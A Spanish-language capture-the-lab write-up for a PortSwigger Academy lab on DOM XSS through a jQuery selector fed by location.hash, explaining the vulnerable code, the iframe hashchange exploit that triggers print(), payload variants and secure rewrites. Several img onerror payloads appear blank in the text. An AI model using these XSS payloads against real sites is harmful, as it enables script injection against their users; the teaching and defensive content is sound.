




# Lab 43 — DOM XSS in jQuery selector sink using a hashchange event

**PortSwigger Web Security Academy**  
**Categoría:** Cross-site scripting → DOM-based XSS  
**URL del lab:** https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event  
**Objetivo:** entregar un exploit a la víctima que ejecute `print()` en su navegador.

---

## 1. Descripción del laboratorio

El laboratorio se llama:

> **DOM XSS in jQuery selector sink using a hashchange event**

La descripción oficial indica que la página principal contiene una vulnerabilidad de **DOM XSS**. La aplicación usa la función selector de jQuery, `$()`, para hacer auto-scroll hacia una publicación concreta. El título o texto de esa publicación se toma desde `location.hash`, es decir, desde el fragmento de la URL.

El objetivo no es ejecutar `alert(1)`, sino ejecutar:

```javascript
print()
```

`print()` abre el diálogo de impresión del navegador. En los labs de PortSwigger, cuando la víctima simulada ejecuta `print()`, el laboratorio se marca como resuelto.

Este detalle es importante porque en otros labs la prueba de XSS suele ser `alert(1)` o `alert(document.cookie)`. Aquí el objetivo es distinto: **hacer que el navegador de la víctima abra el diálogo de impresión**.

---

## 2. Capturas incluidas

Las imágenes utilizadas en este writeup están dentro de la carpeta `images/`.

| Imagen | Archivo | Qué muestra |
|---|---|---|
| Imagen 1 | `images/01_lab_home.png` | Página principal del laboratorio con el título del lab y el botón de exploit server |
| Imagen 2 | `images/02_print_dialog_direct_test.png` | Prueba directa del payload en el hash provocando `print()` |
| Imagen 3 | `images/03_exploit_server_solved.png` | Exploit server después de resolver el laboratorio |
| Imagen 4 | `images/04_view_exploit_print_dialog.png` | Vista del exploit mostrando el diálogo de impresión |



---

## 3. Qué tipo de XSS es este

Este laboratorio es un **DOM-based XSS**.

Eso significa que el problema no está necesariamente en que el servidor devuelva directamente el payload reflejado en el HTML. El flujo vulnerable ocurre en el navegador:

```text
URL del usuario
   ↓
location.hash
   ↓
JavaScript de la página
   ↓
jQuery $()
   ↓
DOM / ejecución
```

En un XSS reflejado clásico, el servidor suele recibir el payload y lo devuelve en la respuesta HTML. Aquí la pieza clave está en el lado cliente: el código JavaScript de la página lee una parte de la URL y la mete en un sink peligroso.

La vulnerabilidad se produce por esta combinación:

```text
Source controlable: location.hash
Sink peligroso: jQuery $()
Disparador: hashchange
Payload: 
```

---

## 4. Qué es `location.hash`

Una URL puede tener varias partes:

```text
https://web.com/ruta?parametro=valor#fragmento
```

Separado:

```text
https://web.com       → origen / dominio
/ruta                 → path
?parametro=valor      → query string
#fragmento            → hash / fragmento
```

La parte que empieza por `#` se llama **fragmento** o **hash**.

Ejemplo:

```text
https://web.com/#post-1
```

Aquí:

```text
location.hash = "#post-1"
```

### 4.1. Diferencia entre query string y hash

Esto es fundamental:

| Parte de la URL | Ejemplo | ¿Se envía al servidor? | ¿La ve JavaScript? |
|---|---|---:|---:|
| Query string | `?search=pepe` | Sí | Sí |
| Hash / fragmento | `#post-1` | No | Sí |

Cuando visitas:

```text
https://web.com/#post-1
```

la petición HTTP enviada al servidor sería conceptualmente:

```http
GET / HTTP/1.1
Host: web.com
```

El servidor **no recibe** `#post-1`.

Pero en el navegador sí existe:

```javascript
window.location.hash
```

devuelve:

```javascript
"#post-1"
```

### 4.2. Por qué esto importa en DOM XSS

Como el hash no se envía al servidor, el backend no puede filtrarlo fácilmente en una petición HTTP normal.

Eso no significa que sea seguro. Significa que el riesgo se desplaza al navegador.

Si el JavaScript del frontend hace esto:

```javascript
var x = location.hash;
$(x);
```

entonces el atacante controla `x`, aunque el servidor nunca haya visto ese dato.

Frase clave:

> El servidor no ve el `#`, pero JavaScript sí.

---

## 5. Qué es el evento `hashchange`

El evento `hashchange` se dispara cuando cambia la parte `#...` de la URL.

Ejemplo:

```text
https://web.com/#post-1
```

Si la URL cambia a:

```text
https://web.com/#post-2
```

el navegador dispara el evento:

```javascript
hashchange
```

Esto permite crear páginas que reaccionan al fragmento de la URL sin recargar todo el documento.

Ejemplo legítimo:

```javascript
window.addEventListener('hashchange', function() {
    console.log(location.hash);
});
```

Cada vez que cambie el hash, se ejecuta la función.

En este lab, la aplicación usa ese evento para buscar un post y hacer scroll hasta él.

---

## 6. Qué es jQuery `$()`

jQuery es una librería de JavaScript muy usada en aplicaciones antiguas y también en muchas aplicaciones reales actuales.

La función principal es `$()`.

`$()` puede hacer varias cosas. Las dos más importantes para este lab son:

1. Buscar elementos usando selectores CSS.
2. Crear elementos HTML si la cadena parece HTML.

Esto es el núcleo del laboratorio.

### 6.1. `$()` como selector

Ejemplo:

```javascript
$('#post-1')
```

Significa:

```text
Busca el elemento cuyo id sea post-1
```

Equivalente aproximado en JavaScript puro:

```javascript
document.getElementById('post-1')
```

Otro ejemplo:

```javascript
$('section.blog-list h2')
```

Significa:

```text
Busca todos los h2 dentro de section.blog-list
```

### 6.2. `$()` como creador de HTML

Pero si pasas una cadena que parece HTML, jQuery puede crear elementos.

Ejemplo:

```javascript
$('')
```

Esto no busca un elemento existente. Crea un elemento nuevo:

```html

```

Y si ese elemento acaba siendo procesado por el navegador, el `onerror` puede ejecutarse.

### 6.3. Regla mental útil

```text
$('img')       → selector: busca etiquetas img existentes
$('')     → HTML: crea una etiqueta img nueva
$('#post-1')   → selector: busca id post-1
$('<div>')     → HTML: crea div
```

La diferencia está en los caracteres `<` y `>`.

Frase clave:

> `$()` no es seguro por defecto: depende de qué string le pases.

---

## 7. Qué es `.get(0)`

Cuando haces:

```javascript
$('#post-1')
```

jQuery no te devuelve directamente el elemento HTML. Te devuelve un objeto jQuery, que es como una envoltura alrededor de uno o varios elementos.

Ejemplo mental:

```javascript
$('#post-1')
```

devuelve algo parecido a:

```text
[ <h2 id="post-1">Título</h2> ]
```

Pero no es un array normal. Es un objeto jQuery.

Para obtener el elemento DOM real se usa:

```javascript
.get(0)
```

Ejemplo:

```javascript
$('#post-1').get(0)
```

Ahora sí tienes el elemento HTML real.

Esto es necesario porque métodos como `scrollIntoView()` pertenecen al DOM nativo, no al objeto jQuery.

Por eso se ve este patrón:

```javascript
$('#post-1').get(0).scrollIntoView();
```

Paso a paso:

```text
$('#post-1')       → busca el elemento con jQuery
.get(0)            → saca el elemento DOM real
.scrollIntoView()  → hace scroll hasta ese elemento
```

También podría escribirse así:

```javascript
$('#post-1')[0].scrollIntoView();
```

---

## 8. Intención legítima de la aplicación

La página principal del blog tiene varios posts. La funcionalidad legítima es permitir que el usuario llegue directamente a un post concreto mediante el hash.

Ejemplo conceptual:

```text
https://LAB/#The Cool Parent
```

La web intenta buscar un título de post que contenga ese texto y hacer scroll hasta él.

Esto no es necesariamente malo. El problema es hacerlo concatenando input del usuario dentro de un selector jQuery sin validación ni escape.

---

## 9. Código vulnerable del laboratorio

Al inspeccionar el DOM de la página principal, aparece un script de este estilo:

```html
<script>
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
</script>
```

Este es el código importante.

Vamos a desmenuzarlo sin saltarnos nada.

---

## 10. Análisis línea por línea

### 10.1. Registro del evento

```javascript
$(window).on('hashchange', function(){
```

Esto significa:

```text
Cuando cambie el hash de la URL, ejecuta esta función.
```

La función no se ejecuta simplemente por cargar la página si el hash ya está ahí. Se ejecuta cuando ocurre un cambio de hash.

Por eso el exploit final usa un `iframe`: para cargar primero la página con un hash inicial y luego cambiarlo automáticamente.

### 10.2. Lectura del hash

```javascript
window.location.hash
```

Si la URL es:

```text
https://LAB/#Hola
```

entonces:

```javascript
window.location.hash
```

devuelve:

```javascript
"#Hola"
```

### 10.3. Eliminación del `#`

```javascript
window.location.hash.slice(1)
```

`.slice(1)` elimina el primer carácter.

Si:

```javascript
window.location.hash = "#Hola"
```

entonces:

```javascript
window.location.hash.slice(1)
```

devuelve:

```javascript
"Hola"
```

La aplicación hace esto porque quiere buscar el texto del post, no el símbolo `#`.

### 10.4. Decodificación URL

```javascript
decodeURIComponent(window.location.hash.slice(1))
```

`decodeURIComponent()` transforma caracteres URL-encoded a su forma real.

Ejemplo:

```text
%3Cimg%20src=x%20onerror=print()%3E
```

se convierte en:

```html

```

Esto es importantísimo.

Si tú metes un payload en el hash y el navegador lo codifica, `decodeURIComponent()` lo vuelve a convertir a caracteres peligrosos reales.

### 10.5. Construcción del selector jQuery

```javascript
$('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')')
```

La aplicación construye un selector como string.

Caso normal:

```text
#The Cool Parent
```

Después de `slice(1)`:

```text
The Cool Parent
```

Selector resultante:

```javascript
$('section.blog-list h2:contains(The Cool Parent)')
```

Eso busca dentro de:

```html
<section class="blog-list">
```

los títulos:

```html
<h2>...</h2>
```

que contengan el texto `The Cool Parent`.

### 10.6. Scroll al elemento encontrado

```javascript
if (post) post.get(0).scrollIntoView();
```

Si se encontró algo, obtiene el primer elemento DOM real con `.get(0)` y hace scroll hasta él.

La intención es útil:

```text
Hash del usuario → buscar post → hacer scroll automático
```

Pero la implementación es vulnerable.

---

## 11. Dónde está exactamente la vulnerabilidad

La vulnerabilidad está aquí:

```javascript
$('section.blog-list h2:contains(' + USER_INPUT + ')')
```

`USER_INPUT` viene de:

```javascript
location.hash
```

No hay validación. No hay escape. No hay comprobación de que sea texto normal.

La aplicación asume que el hash va a contener un título de post, pero el atacante puede meter HTML o caracteres que rompan el selector.

El problema no es `hashchange` por sí solo. Tampoco es jQuery por sí solo. El problema es esta cadena:

```text
location.hash controlado por el usuario
   ↓
decodeURIComponent()
   ↓
concatenación dentro de selector jQuery
   ↓
$()
```

---

## 12. Source y sink

En DOM XSS solemos hablar de **source** y **sink**.

### 12.1. Source

Un source es el lugar desde donde entra el dato controlado por el atacante.

En este lab:

```javascript
window.location.hash
```

es el source.

El atacante controla el hash de la URL:

```text
https://LAB/#payload
```

### 12.2. Sink

Un sink es el punto peligroso donde ese dato se usa de forma que puede provocar ejecución.

En este lab:

```javascript
$()
```

es el sink, porque jQuery puede interpretar strings como selectores o como HTML.

### 12.3. Disparador

El disparador es:

```javascript
hashchange
```

El código vulnerable no se ejecuta en cualquier momento. Se ejecuta cuando cambia el hash.

---

## 13. Por qué un payload directo puede abrir print pero no resolver el lab

Podemos probar directamente en la URL algo como:

```text
https://LAB/#%3Cimg%20src=1%20onerror=print()%3E
```

Eso representa:

```html

```

Y puede hacer que se abra el diálogo de impresión, como se ve en la imagen 2.



Pero eso no siempre resuelve el laboratorio porque el objetivo real es que **la víctima simulada** ejecute `print()`.

Tú puedes provocar `print()` en tu propio navegador. Eso demuestra la vulnerabilidad, pero el lab quiere que entregues un exploit a la víctima.

Por eso el laboratorio incluye un **exploit server**.

---

## 14. Por qué se necesita el exploit server

El exploit server es un servidor controlado por nosotros dentro del entorno de PortSwigger.

Sirve para alojar una página maliciosa y enviarla a la víctima simulada.

En este lab, necesitamos que la víctima visite una página que fuerce automáticamente la carga de la web vulnerable y cambie el hash para disparar `hashchange`.

No basta con decir:

```text
abre https://LAB/#
```

Necesitamos que el exploit sea automático, porque el usuario víctima no va a manipular manualmente la URL.

---

## 15. Por qué se usa un `iframe`

El código vulnerable se ejecuta cuando se dispara `hashchange`.

Para disparar `hashchange` automáticamente, usamos un `iframe`:

```html
<iframe src="https://LAB/#" onload="this.src+=''"></iframe>
```

La idea es:

1. Cargar la página vulnerable dentro del iframe con un hash inicial.
2. Cuando el iframe cargue, modificar su `src` añadiendo el payload al hash.
3. Esa modificación provoca un cambio de hash.
4. El evento `hashchange` se dispara en la página vulnerable.
5. El código vulnerable procesa `location.hash`.
6. jQuery interpreta el payload y se ejecuta `print()`.

---

## 16. Payload final

El payload final usado en el exploit server es:

```html
<iframe src="https://LAB.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

Sustituyendo `LAB.web-security-academy.net` por el dominio real del laboratorio:

```html
<iframe src="https://0a64006803d1041281acd94400ea000e.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

---

## 17. Desglose del payload final

### 17.1. `<iframe>`

```html
<iframe ...></iframe>
```

Un iframe incrusta una página dentro de otra.

Aquí incrustamos la página vulnerable dentro de la página del exploit server.

### 17.2. `src="https://LAB/#"`

```html
src="https://0a64006803d1041281acd94400ea000e.web-security-academy.net/#"
```

Carga la página vulnerable con un hash inicial vacío.

El hash inicial es importante porque luego vamos a cambiarlo.

### 17.3. `onload="..."`

```html
onload="this.src+=''"
```

`onload` se ejecuta cuando el iframe termina de cargar.

`this` se refiere al iframe.

`this.src += ...` modifica la URL del iframe.

Si inicialmente era:

```text
https://LAB/#
```

después pasa a ser algo como:

```text
https://LAB/#
```

Ese cambio en el fragmento dispara `hashchange` dentro de la página vulnerable.

### 17.4. ``

```html

```

Esto crea una imagen con un `src` inválido.

Como `x` no es una imagen válida, el navegador dispara el evento `onerror`.

El manejador de error ejecuta:

```javascript
print()
```

---

## 18. Flujo completo del ataque

El flujo completo queda así:

```text
1. El atacante abre el exploit server.
2. El atacante pega el iframe malicioso en el body.
3. El atacante envía el exploit a la víctima.
4. La víctima visita el exploit server.
5. El navegador de la víctima carga el iframe.
6. El iframe carga la web vulnerable con hash inicial #.
7. Cuando el iframe carga, se ejecuta onload.
8. onload cambia el src del iframe y añade el payload al hash.
9. En la página vulnerable se dispara hashchange.
10. El script vulnerable lee window.location.hash.
11. slice(1) elimina el #.
12. decodeURIComponent reconstruye el payload real.
13. jQuery recibe input malicioso dentro de $().
14. Se crea/interpreta un  malicioso.
15. El src falla.
16. Se dispara onerror.
17. Se ejecuta print().
18. El laboratorio se marca como resuelto.
```

---

## 19. Por qué `print()` y no `alert(1)`

La condición del laboratorio es ejecutar:

```javascript
print()
```

`print()` abre el diálogo de impresión del navegador.

PortSwigger usa esta función en algunos labs donde la víctima simulada debe ejecutar una acción visible o medible. La plataforma detecta que se ha llamado a `print()` en el navegador de la víctima.

Si usas:

```javascript
alert(1)
```

puede que demuestres XSS, pero no resuelves este laboratorio porque no estás cumpliendo la condición exacta.

---

## 20. Por qué no basta con poner el payload directamente en la URL

Un payload directo como:

```text
https://LAB/#
```

puede funcionar en tu navegador.

Pero el lab pide:

```text
entregar un exploit a la víctima
```

Eso significa que la víctima simulada debe llegar al payload y ejecutarlo sin intervención manual.

El exploit server permite automatizarlo.

Además, el código vulnerable escucha `hashchange`. Si la página ya carga directamente con el hash malicioso, dependiendo del comportamiento del navegador y del momento de registro del handler, puede no dispararse el evento como se necesita.

El iframe soluciona eso porque fuerza un cambio de hash después de que la página haya cargado.

---

## 21. Qué ocurre con `decodeURIComponent()`

Cuando escribes caracteres especiales en una URL, el navegador puede codificarlos.

Ejemplo:

```html

```

puede verse como:

```text
%3Cimg%20src=x%20onerror=print()%3E
```

El código vulnerable hace:

```javascript
decodeURIComponent(window.location.hash.slice(1))
```

Esto transforma:

```text
%3Cimg%20src=x%20onerror=print()%3E
```

en:

```html

```

Esto ayuda al atacante porque el payload vuelve a tener forma de HTML real antes de llegar a jQuery.

---

## 22. Análisis del selector vulnerable

El selector se construye así:

```javascript
'section.blog-list h2:contains(' + input + ')'
```

Con input normal:

```text
The Cool Parent
```

queda:

```javascript
section.blog-list h2:contains(The Cool Parent)
```

Con input malicioso:

```html

```

la cadena final contiene HTML donde jQuery esperaba texto de selector.

El error es conceptual:

> El desarrollador esperaba texto, pero permitió que el atacante controlara sintaxis.

En seguridad, cuando concatenas input dentro de un lenguaje estructurado, el atacante puede intentar escapar de ese contexto.

Aquí el lenguaje estructurado es el selector jQuery/CSS, no HTML directamente.

---

## 23. Diferencia con otros labs DOM XSS

### 23.1. Lab con `innerHTML`

En un lab de `innerHTML`, el payload suele ser directo:

```html

```

porque `innerHTML` interpreta HTML.

### 23.2. Lab con `document.write` dentro de `<select>`

Ahí normalmente hay que salir del contexto:

```html
</select>
```

porque dentro de `<option>` no todo HTML se ejecuta.

### 23.3. Este lab con jQuery selector

Aquí el problema no empieza como HTML puro. Empieza como selector:

```javascript
$('section.blog-list h2:contains(' + input + ')')
```

El ataque consiste en abusar de cómo jQuery interpreta la cadena que recibe.

Frase clave:

> No todo DOM XSS nace en `innerHTML`; también puede nacer en selectores, atributos, URLs, eventos y otros sinks.

---

## 24. Práctica paso a paso

### 24.1. Abrir el laboratorio

Al iniciar el laboratorio se abre la página principal del blog.

La página muestra el título:

```text
DOM XSS in jQuery selector sink using a hashchange event
```

También aparece el botón:

```text
Go to exploit server
```

Esto ya nos indica que el lab requiere entregar algo a una víctima simulada, no solo explotar la página localmente.

Ver imagen 1:


### 24.2. Inspeccionar el DOM

Inspeccionamos el código de la página y localizamos:

```html
<script>
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
</script>
```

Confirmamos:

```text
Source: window.location.hash
Transformación: slice(1) + decodeURIComponent()
Sink: jQuery $()
Disparador: hashchange
```

### 24.3. Probar payload directo

Probamos en la URL:

```text
https://0a64006803d1041281acd94400ea000e.web-security-academy.net/#%3Cimg%20src=1%20onerror=print()%3E
```

Esto corresponde a:

```html

```

El navegador abre el diálogo de impresión.

Ver imagen 2:


Esto demuestra que el payload tiene capacidad de ejecución.

Pero todavía falta resolver el lab enviándolo a la víctima.

### 24.4. Ir al exploit server

Pulsamos:

```text
Go to exploit server
```

En el exploit server, dejamos los campos básicos por defecto y usamos el body para introducir el iframe malicioso.

Payload:

```html
<iframe src="https://0a64006803d1041281acd94400ea000e.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

### 24.5. Enviar el exploit a la víctima

Guardamos el exploit y usamos:

```text
Deliver exploit to victim
```

Cuando la víctima simulada carga el exploit, su navegador ejecuta el flujo descrito y se llama a `print()`.

El laboratorio se marca como resuelto.

Ver imagen 3:



### 24.6. Ver el exploit manualmente

Si pulsamos `View exploit`, vemos que el iframe carga la página vulnerable y también aparece el diálogo de impresión.

Ver imagen 4:



---

## 25. Payloads y variantes

### 25.1. Payload directo para prueba local

```text
#%3Cimg%20src=x%20onerror=print()%3E
```

Decodificado:

```html
#
```

### 25.2. Payload en exploit server

```html
<iframe src="https://LAB/#" onload="this.src+=''"></iframe>
```

### 25.3. Variante con `onerror=alert(1)` para comprobar XSS

```html

```

No resuelve el lab porque el objetivo es `print()`, pero sirve para entender el comportamiento.

### 25.4. Variante con URL encoding completo

```text
#%3Cimg%20src%3Dx%20onerror%3Dprint()%3E
```

Equivale a:

```html
#
```

---

## 26. Por qué el `iframe` cambia el hash correctamente

El iframe se carga con:

```html
src="https://LAB/#"
```

Eso crea una primera carga limpia con hash vacío.

Luego el `onload` ejecuta:

```javascript
this.src += ''
```

Si el `src` era:

```text
https://LAB/#
```

pasa a ser:

```text
https://LAB/#
```

Eso es un cambio de hash dentro del iframe.

El evento `hashchange` se dispara en el contexto de la página vulnerable cargada en el iframe.

---

## 27. Por qué el servidor no puede ver el payload del hash

Como el payload va detrás de `#`, el servidor vulnerable no lo recibe en la petición HTTP.

Esto es típico en DOM XSS con `location.hash`.

Ejemplo:

```text
https://LAB/#
```

El servidor recibe algo como:

```http
GET / HTTP/1.1
Host: LAB
```

No recibe:

```text
#
```

El payload vive exclusivamente en el navegador.

Por eso el control debe estar en el frontend.

---

## 28. Qué haría una implementación segura

La vulnerabilidad existe porque el input del hash se concatena directamente dentro de un selector jQuery.

Código inseguro:

```javascript
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```

Una opción más segura sería no construir selectores con input del usuario.

Por ejemplo:

```javascript
$(window).on('hashchange', function() {
    var wanted = decodeURIComponent(window.location.hash.slice(1));
    $('section.blog-list h2').each(function() {
        if ($(this).text().includes(wanted)) {
            this.scrollIntoView();
        }
    });
});
```

Aquí el input se compara como texto, no como sintaxis de selector.

Otra opción sería validar estrictamente el hash:

```javascript
var value = decodeURIComponent(window.location.hash.slice(1));
if (/^[a-zA-Z0-9\s-]+$/.test(value)) {
    // usar solo valores esperados
}
```

Pero incluso con validación, lo mejor es evitar meter input directamente dentro de `$()` como selector.

---

## 29. Defensas importantes

### 29.1. No usar `$()` con input no confiable

Evitar patrones como:

```javascript
$(userInput)
```

sobre todo si `userInput` puede venir de:

```text
location.hash
location.search
document.referrer
postMessage
localStorage
sessionStorage
cookies
```

### 29.2. No concatenar input dentro de selectores

Evitar:

```javascript
$('div:contains(' + userInput + ')')
```

porque el usuario controla sintaxis.

### 29.3. Tratar el hash como input no confiable

Aunque el hash no llegue al servidor, sigue siendo controlado por el atacante.

```javascript
location.hash
```

no debe considerarse seguro.

### 29.4. Usar APIs de texto, no HTML/selectores

Si quieres comparar texto, usa `.text()` o `textContent`.

Si quieres buscar IDs, usa APIs seguras y validación estricta.

### 29.5. Content Security Policy

Una CSP estricta puede reducir impacto, especialmente bloqueando handlers inline y ejecución insegura.

Pero CSP no debe ser la única defensa. La defensa real es no introducir input no confiable en sinks peligrosos.

---

## 30. Errores conceptuales típicos

### Error 1: “El hash no llega al servidor, entonces no importa”

Incorrecto.

Precisamente porque no llega al servidor, muchos filtros backend no lo ven. Pero JavaScript sí lo lee.

### Error 2: “jQuery `$()` solo busca elementos”

Incorrecto.

`$()` también puede crear HTML si recibe una cadena que parece HTML.

### Error 3: “Si el payload está URL-encoded no se ejecuta”

Incorrecto.

El código usa `decodeURIComponent()`, que lo reconstruye.

### Error 4: “El payload directo abre print, por tanto el lab ya debería resolverse”

No necesariamente.

El lab exige que el exploit se entregue a la víctima simulada. Por eso se usa el exploit server.

### Error 5: “El evento se ejecuta al cargar con hash”

No siempre. El handler está en `hashchange`, así que necesitas un cambio de hash. El iframe fuerza ese cambio.

---

## 31. Resumen técnico final

La vulnerabilidad se basa en:

```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

El atacante controla:

```javascript
window.location.hash
```

El código lo decodifica:

```javascript
decodeURIComponent(...)
```

Lo concatena dentro de un selector jQuery:

```javascript
:contains(USER_INPUT)
```

Y se lo pasa a:

```javascript
$()
```

jQuery puede interpretar input malicioso como HTML y crear un elemento como:

```html

```

Al fallar la carga de la imagen, se ejecuta:

```javascript
print()
```

El exploit server automatiza el cambio de hash con:

```html
<iframe src="https://LAB/#" onload="this.src+=''"></iframe>
```

---

## 32. Frases clave para recordar

- `location.hash` no se envía al servidor, pero JavaScript sí lo puede leer.
- `hashchange` se dispara cuando cambia el fragmento `#...`.
- `$()` en jQuery puede buscar elementos o crear HTML.
- Si el input empieza o acaba formando `<...>`, jQuery puede tratarlo como HTML.
- `decodeURIComponent()` puede convertir payloads URL-encoded en HTML real.
- No basta con que un payload funcione en tu navegador; este lab exige entregarlo a la víctima.
- El iframe se usa para cargar la página y cambiar el hash automáticamente.
- El objetivo exacto del lab es `print()`, no `alert(1)`.

---

## 33. Conclusión

Este laboratorio enseña una variante muy realista de DOM XSS: no se explota mediante `innerHTML`, ni mediante `document.write`, ni inyectando directamente un `<script>`. Se explota abusando de un selector jQuery construido con datos no confiables.

La cadena completa es:

```text
Hash controlado por atacante
   ↓
hashchange
   ↓
location.hash
   ↓
decodeURIComponent
   ↓
selector jQuery construido por concatenación
   ↓
$()
   ↓
creación/interpretación de HTML malicioso
   ↓

   ↓
print()
```

La lección principal es clara:

> Nunca metas input controlado por el usuario dentro de `$()`, selectores, HTML, atributos o eventos sin validarlo y sin entender el contexto exacto donde acabará interpretándose.

